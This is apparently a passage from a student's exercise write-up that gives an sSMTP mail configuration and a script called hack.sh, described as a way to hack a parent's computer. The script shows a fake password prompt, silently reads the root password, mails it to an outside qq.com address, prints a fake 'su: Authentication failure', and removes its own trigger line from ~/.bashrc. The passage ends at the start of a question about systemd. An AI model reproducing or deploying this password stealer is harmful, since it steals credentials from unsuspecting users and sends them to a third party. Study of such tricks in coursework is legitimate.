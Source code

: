    ```bash
   #
   # Config file for sSMTP sendmail
   #
   # The person who gets all mail for userids < 1000
   # Make this empty to disable rewriting.
   root=lmx00518@qq.com
   
   # The place where the mail goes. The actual machine name is required no 
   # MX records are consulted. Commonly mailhosts are named mail.domain.com
   mailhub=smtp.qq.com:587
   
   # Where will the mail seem to come from?
   #rewriteDomain=
   
   # The full hostname
   hostname=LAPTOP-2510VM42.localdomain
   
   # Are users allowed to set their own From: address?
   # YES - Allow the user to specify their own From: address
   # NO - Use the system generated From: address
   #FromLineOverride=YES
   #
   
   AuthUser=lmx00518@qq.com
   AuthPass=AUTHPASSFORTHEMAIL
   UseTLS=Yes
   ```

   Then we run `hack.sh` to hack mon's computer.

   ```shell
   #!/bin/bash
   
   mailto=lmx00518@qq.com
   
   echo -e "Password: \c"
   read -s password
   echo
   mail -s 'root password of mum' $mailto <<< $password
   echo "su: Authentication failure"
   
   echo $1
   head -n -1 ~/.bashrc > ~/.bashrc.tmp
   mv ~/.bashrc.tmp ~/.bashrc
   exit 1
   ```

   


## Ex2.2 Automatic Setup

1. **What is `systemd`, where are service files stored and how to write one?**
